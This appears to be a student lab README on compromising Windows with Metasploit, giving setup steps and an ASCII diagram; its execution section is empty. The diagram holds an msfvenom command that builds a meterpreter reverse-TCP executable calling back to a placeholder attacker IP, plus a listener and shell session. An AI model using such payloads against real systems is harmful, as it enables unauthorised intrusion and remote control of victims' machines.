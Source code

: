 # Compromising-windows-using-Metasploit
## NAME:ILEVARASEN S
## REGISTER NUMBER:212224040120
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
```